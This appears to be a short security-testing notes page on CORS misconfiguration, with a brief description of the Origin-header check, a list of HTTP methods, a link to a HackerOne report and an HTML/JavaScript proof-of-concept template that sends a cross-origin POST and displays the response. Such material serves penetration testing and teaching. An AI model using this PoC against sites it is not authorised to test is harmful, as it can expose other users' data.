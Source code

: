 # Cors-Origin

Uygulamanın "Origin" HTTP üstbilgisinin değerinin, gelen HTTP isteğini gönderenin uzak IP adresi / Ana Bilgisayarı değeriyle tutarlı olup olmadığını kontrol edin.


```
SENSITIVE_METHODS = ('PUT', 'DELETE')
COMMON_METHODS = ('POST', 'GET', 'OPTIONS', 'PUT', 'DELETE')
```

Good example from H1
https://hackerone.com/reports/235200

### Post based CORS Misconfiguration PoC

```
<html>
<script>
var http = new XMLHttpRequest();
var url = 'Url';//Paste here Url
var params = 'PostData';//Paste here POST data
http.open('POST', url, true);

//Send the proper header information along with the request
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

http.onreadystatechange = function() {//Call a function when the state changes.
    if(http.readyState == 4 && http.status == 200) {
        alert(http.responseText);
    }
}
http.send(params);

</script>
</html>
```
